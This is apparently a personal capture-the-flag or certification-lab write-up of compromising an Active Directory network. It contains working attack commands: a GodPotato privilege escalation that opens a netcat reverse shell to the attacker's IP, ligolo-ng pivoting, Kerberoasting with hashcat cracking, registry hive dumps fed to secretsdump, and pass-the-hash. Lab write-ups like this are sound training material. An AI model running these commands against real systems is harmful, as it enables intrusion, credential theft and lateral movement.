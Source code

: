 # Active Directory

I start off with the credentials:

```
Eric.Wallows / EricLikesRunning800
```

I start by enumerating for SMB shares:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see that we can connect through evil-winrm and that the user eric.wallows has SeImpersonatePrivilege

<figure><img src="../../../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070" %}

So i upload printspoofer to the box:

<figure><img src="../../../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

But there is a problem with a persistent shell because evil winrm is not interactive, so i go on another method, download and upload godpotato and launch this command:

```
C:/Users/eric.wallows/Desktop/GodPotato-NET4.exe -cmd "C:/Users/eric.wallows/Desktop/nc.exe -e cmd.exe 192.168.45.157 1234"
```

and i get a reverse shell:

<figure><img src="../../../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>

Ok so whil looking at the IP config, we see that this machine is dual homed:

<figure><img src="../../../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

So i need to be able to pivot to access the services on the other subnet, i'll  use ligolo:

```
git clone https://github.com/nicocha30/ligolo-ng.git
cd ligolo-ng
go build -o agent ./cmd/agent
go build -o proxy ./cmd/proxy
```

From my linux box i can send to target 2 ways, with or without winrm:

without:

```
scp agent.exe user@windows-target:C:\Users\Public\agent.exe
```

with:

```
Invoke-WebRequest -Uri "http://YOUR_IP/agent.exe" -OutFile "C:\Users\Public\agent.exe"
```

<figure><img src="../../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

I got some problems with:

```sh
[Feb 21, 2025 - 20:41:38 (CET)] exegol-Offsec ligolo-ng # ./proxy -laddr 0.0.0.0:11601

ERRO[0000] Could not load TLS certificate. Please make sure paths are correct or use -autocert or -selfcert options  certfile=certs/cert.pem keyfile=certs/key.pem
FATA[0000] open certs/cert.pem: no such file or directory
```

and fixed it with:

```
./proxy -laddr 0.0.0.0:11601 -selfcert
```

ok i gave up on chisel and came back on ligolo, after downloading ligolo agent for windows and proxy for linux, on my kali box i ran&#x20;

```
tar -xvzf ligolo-ng_proxy_0.7.5_linux_amd64.tar.gz
ip tuntap add user felix mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

and on my windows session i ran:

```
./agent.exe --connect 192.168.45.238:11601 -ignore-cert
```

<figure><img src="../../../../.gitbook/assets/image (206).png" alt=""><figcaption></figcaption></figure>

Then in another terminal i type:

```
sudo ip route add 10.10.87.0/24 dev ligolo
```

and i go back in the kali ligolo shell and type:

```
session
1
start
```

And i can now ping the internal network:&#x20;

<figure><img src="../../../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

Then i start my enumeration over again and look for open ports:

<figure><img src="../../../../.gitbook/assets/image (208).png" alt=""><figcaption></figcaption></figure>

then i look for open shares:

<figure><img src="../../../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

I go and download everything in Users share and find a lot of stuff:

<figure><img src="../../../../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>

I started looking through each file but it was very long so i told myself that i'll continue enumeration and found something:

```
nxc ldap 10.10.87.140 -u Eric.Wallows -p EricLikesRunning800 --kerberoasting kerb.out
```

<figure><img src="../../../../.gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

and we're able to crack the password of web\_svc with command:

```
hashcat -m13100 websvc.hash /usr/share/wordlists/rockyou.txt
```

And we confirm we have the good credentials:

<figure><img src="../../../../.gitbook/assets/image (212).png" alt=""><figcaption></figcaption></figure>

Then i went back and privesc to dump hashes:

```
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

was able to secretsdump&#x20;

```
impacket-secretsdump -sam 'sam.save' -security 'security.save' -system 'system.save' LOCAL 
```

<figure><img src="../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

With the default creds i can connect to celia.almeda: via evil winrm

Then i find a windows.old folder that contains in /windows/system32 a sam and system hive that i export back to my attackbox and crack:

```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I'm able to use pass the hash to connect as tom admin:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And get the proof.txt on the admin Desktop

